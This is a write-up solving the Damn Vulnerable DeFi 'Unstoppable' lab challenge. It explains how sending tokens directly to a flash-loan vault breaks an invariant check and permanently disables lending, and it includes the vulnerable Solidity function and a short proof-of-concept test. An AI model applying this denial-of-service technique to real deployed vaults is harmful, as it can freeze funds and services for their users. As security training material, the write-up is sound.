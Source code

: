 Prepared by: [Elia Bordoni](https://elia-bordoni-blockchain-dev.netlify.app/)

### Damn Vulnerable DeFi: Unstoppable

## The assertion if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); cause DOS if transfer token directly to the contract without passing throgh the deposit function

**Description** The vault relies on the invariant that the total number of shares must always correspond to the total value of the underlying tokens. When users call the `UnstoppableVault::deposit` function, they receive share tokens that maintain this 1:1 relationship between shares and underlying assets.
However, the contract also exposes a `UnstoppableVault::transfer` function. If an external user directly transfers even a single underlying token to the vault, the invariant will be permanently broken, as the contract’s balance of underlying tokens will exceed the value represented by the total supply of shares.

<details>
<summary>vulnerability</summary>

```solidity
 function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        //@audit-issue this is the vulbnerable line, attacker can break  it sending tokens directly to the vault
@>      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

</details>

**Impact** This results in a permanent Denial of Service (DOS) for the flash loan functionality, since the check
`convertToShares(totalSupply) == totalAssets()` will always fail.

**ProofOfConcept** Add the following to the `Unstoppable.t.sol` test file on `Unstoppable.t.sol::test_unstoppable` and run the test. Check log to see `UnstoppableVault::convertToShares(totalSupply)` and `UnstoppableVault::totalAssets()` values.

<details>
<summary>Test Code</summary>

```solidity
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
        console.log("total supply convertToShares: ", vault.convertToShares(vault.totalSupply()));
        console.log("total assets:                ", vault.totalAssets());
    }
```

</details>
